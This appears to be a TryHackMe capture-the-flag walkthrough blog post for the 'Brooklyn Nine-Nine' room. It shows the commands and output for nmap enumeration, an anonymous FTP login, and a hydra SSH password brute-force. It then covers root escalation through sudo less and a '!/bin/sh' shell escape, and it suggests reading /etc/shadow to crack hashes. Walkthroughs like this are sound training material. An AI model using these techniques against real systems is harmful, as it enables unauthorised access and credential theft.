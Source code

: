 ```yaml
---
title: "Brooklyn Nine-Nine Walkthrough"
date: 2022-04-22T15:06:28
lastmod: 2022-04-22T17:06:29
draft: false
description: "A walkthrough to the Brooklyn Nine-Nine Room on TryHackMe."

tags: ["hacking", "web", "walkthrough", "privesc"]
categories: ["TryHackMe Walkthroughs"]

---
```


# Brooklyn Nine-Nine Room
This is a brief walkthrough to the Brooklyn Nine-Nine Room on [TryHackMe]( https://tryhackme.com/room/brooklynninenine)

## Enumeration

### Nmap
```
root@ip-10-10-184-59:~# nmap -sV 10.10.9.108

Starting Nmap 7.60 ( https://nmap.org ) at 2022-04-23 00:07 BST
Nmap scan report for ip-10-10-9-108.eu-west-1.compute.internal (10.10.9.108)
Host is up (0.00098s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
MAC Address: 02:97:F2:6B:1B:69 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.05 seconds
```

### FTP
Let's begin with the first port and check for anonymous FTP

```
root@ip-10-10-184-59:~/Downloads# ftp 10.10.9.108
Connected to 10.10.9.108.
220 (vsFTPd 3.0.3)
Name (10.10.9.108:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
```

Now let's see what the note says:

```
From Amy,

Jake, please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

## Exploitation
With that note, let's try to brute force the password for Jake's SSH account

```
root@ip-10-10-184-59:~/Tools/wordlists# hydra -l jake -P ./rockyou.txt ssh://10.10.9.108 -v -t4
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

[22][ssh] host: 10.10.9.108   login: jake   password: {omitted}

```

Now we will find the user flag, however, there is not any in Jake's directory - so let's explore other users’ directories by going to /home. 

We can find the flag in /home/holt.

## Privilege Escalation
Now we will check to see commands that Jake can run as root:

```
jake@brookly_nine_nine:/home/holt$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

So we can use the less command as root. As less can read files, we will just use sudo in front of it, so `sudo less /root/root.txt`.

## Privilege Escalation 2
The challenge mentions there are two ways to find the flag, so let’s try to discover the second way. First search for SUID files using `find / -perm /4000 2>/dev/null`. From this, we find that /bin/less has the sticky bit set, therefore, we can use `/bin/less /root/root.txt` to read the flag.

## Persistence
From the above two privilege escalation steps, we are still unable to effectively run commands as the root user. This can be changed using one of the following methods:

- [GTFObins](https://gtfobins.github.io/gtfobins/less/#sudo) provides a solution to escalate to root. Open any file with the less command, then type `!/bin/sh` to spawn a root privileged shell (see below):

```
jake@brookly_nine_nine:/home/holt$ sudo less /root/root.txt
# ls
nano.save  user.txt
# whoami
root
```

- As you can read any file, you could read the /etc/shadow and /etc/passwd files and attempt to crack the passwords (Nb: this will only work if a weak password has been set).
